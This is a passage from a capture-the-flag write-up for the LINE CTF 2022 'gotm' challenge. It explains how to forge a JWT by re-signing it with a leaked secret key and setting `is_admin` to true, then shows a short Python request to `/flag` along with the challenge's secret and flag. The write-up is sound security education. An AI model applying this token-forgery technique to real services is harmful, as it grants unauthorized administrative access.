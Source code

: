 Copy the token to https://jwt.io/, paste the secret key then change `is_admin` to `true`

![gotm2](/uploads/linectf2022/gotm2.png)

Then modify the token, goto `/flag` to get flag!

```py
header = {
	"X-Token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InRlc3QiLCJpc19hZG1pbiI6dHJ1ZX0.a3n4_N2iEzoxe2x_0jYIyS26jx-PP_eTjvvZEgDk11s"
}

r = requests.get(URL+"flag",headers=header)
print(r.status_code)
print(r.text)
# 200
# {"status":true,"msg":"Hi test, flag is LINECTF{this_is_fake_flag}"}
```
Repeat the same steps for the real challenge URL, we get the secret key is `fasdf972u1031xu90zm10Av`, then using jwt.io to modify the token and get the flag!

Alternatively, can use [Pyjwt](https://pyjwt.readthedocs.io/en/latest/) to encode the token 

[Full Python Script](/uploads/linectf2022/gotm_solve.py)

## Flag
```
LINECTF{country_roads_takes_me_home}
```
